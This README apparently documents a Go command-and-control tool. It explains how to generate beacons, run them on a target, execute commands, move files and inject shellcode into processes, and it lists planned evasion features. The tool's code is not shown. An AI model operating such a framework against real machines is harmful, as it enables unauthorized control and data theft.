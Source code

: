 https://user-images.githubusercontent.com/7650862/122788869-4b9e4600-d2a6-11eb-98c7-b33f8b2706bc.mp4
<br />
![web image](https://i.imgur.com/GClimue.png)


Usage:

After cloning the repo run server.go
Run 'create LHOST 8001' to generate a beacon. This will be placed in the out directory.
Execute the beacon on the target.

Inside the command server you can reference beacons using either their list id or their unique id.
For example if the output of 'list' is '[0] LuTNluGL@10.255.52.1 last seen 2021-05-23 21:07:17.208101927 -0400 EDT m=+179.667762638', you could refer to this beacon by LuTNluGL or 0.

Execute commands or download files from beacons:
exec BEACON cmd
download BEACON file

After selecting an active beacon with user shellcode may be injected into another process. List processes with plist and provide the shellcode command with the path to the data as well as the PID.

However if you select a beacon with the use command you can exempt the beacon identification.
Beacon identification can be replaced with * to schedule the operation for all live beacons.

Downloaded files will be saved to downloads/BEACON-IP/BEACON-ID/

Commands:

```
listeners 
httplistener <iface> <hostname> <port>
exec <beacon id OR index> <command>
upload <beacon id OR index> <local file> OR <local file>
use <beacon id OR index>
script <beacon id OR index> <local file path> <remote executor path>
shellcode <path to shellcode> <PID>
list 
plist 
create <listener>
download <beacon id OR index> <remote file> OR <remote file>
migrate <PID> // nonworking
help <command>
```

Todo list:
- Exec:
    - HTTP: finished
- Upload
    - HTTP: finished
- Download: 
    - HTTP: finished
- Proxychaining beacons OR P2P beacons
- Automatic proxychains configuration depending on beacon route
- Add handling of multiple clients with random unique IDs: FINISHED
- RSA encrypt data instead of base 64 encode
- Randomly timed sending
- Web interface - WIP
